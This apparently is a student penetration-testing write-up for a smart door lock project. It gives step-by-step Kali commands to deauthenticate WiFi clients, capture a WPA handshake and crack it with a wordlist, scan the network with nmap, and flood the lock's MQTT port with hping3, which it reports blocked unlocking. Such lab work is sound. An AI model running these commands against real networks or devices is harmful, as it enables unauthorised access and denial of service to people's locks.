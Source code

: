 # Security Testing
## Accessing Network
To access the network, we would have to crack the password to enter WiFi network which is done using Kali Linux. To do so, we first need a wireless adapter which in our case is named "wlan0". We would then first stop any concurrent activity using the WiFi interface by running the following command on the terminal:
```console
kali@kali:~$ airmon-ng check kill
```
We then run the next command to enter montiring mode on the wlan0 interface.
```console
kali@kali:~$ airmon-ng start wlan0
```
After that, we would first view all the WiFi networks around us and find our target network by running the command.
```console
kali@kali:~$ airodump-ng wlan0mon
```
At this point we are able to view the different SSID, MAC address of WAP, channels, etc. Once target network is found, we will view all the connected clients by using the command:
```console
kali@kali:~$ airodump-ng -c <channel no.> --bssid <MAC Address of WAP> -w <Name of file for output> wlan0mon
```
From here, we will open up another terminal to disconnect the clients connected to the target network by running the command.
```console
kali@kali:~$ aireplay-ng -0 10 -a <MAC address of WAP> wlan0mon
```
Note:</br>-0 : For deauthentication</br>
       10 : No. of deauthentication packets to be sent</br>
      -a : For the bssid of the target network</br>

Once all clients are disconnected from the target network, we will wait for clients to join back and receive a WPA handshake from this process. After this we will crack the password using the output file we created from the command to view the connected clients to the network. We will run the command:
```console
kali@kali:~$ aircrack-ng -a2 -b <MAC Address of WAP> -w <Output file path> <File of Common Passwords>
```
Note: File of common passwords can be retrieved from crunch tools on https://www.kali.org/tools/crunch/. </br>
We then waited until the WiFi password is matched, hence, we are now able to access the network.

## Finding Target Device
After accessing the network, we will need to find the IP address fo the target device in order to perform attacks on it. To do this we will be using a network scanning tool on Kali Link called "nmap". We will run the follwing command to scan the network we are in.
```console
kali@kali:~$ sudo nmap -sn <Network_Address>
```
This will provide us with the IP address, MAC address and manufacturer name of the devices connected in the network. With that we can discover the Arduino manufactured device on the network which is our target since it will control the lock and camera of the smart door. Thus, we can perform our attack with this information.

## Attack Performed on Target Device
Conducted a denial-of-service (DOS) attack by using the "hping3" tool which allows us to send manipulated packets including size, quantity, and fragmentation of packets in order to overload the target.
</br>
</br>
Command Used:
```console
kali@kali:~$ sudo hping3 "IP ADDRESS of Target" -q -n -d 120 -S -p 8883 --flood --rand-source
```
Note: Port used is 8883 (MQTT TLS port). </br>

We were successful in disrupting the MQTT services which disallowed the users from unlocking their door. To stop the DOS attack, press Ctrl+C on keyboard.</br>

## Video of Penetration Testing
[![Video of Penetration Testing](Img/thumbnail.jpeg)](https://youtu.be/H-ZGN0VNeEk)
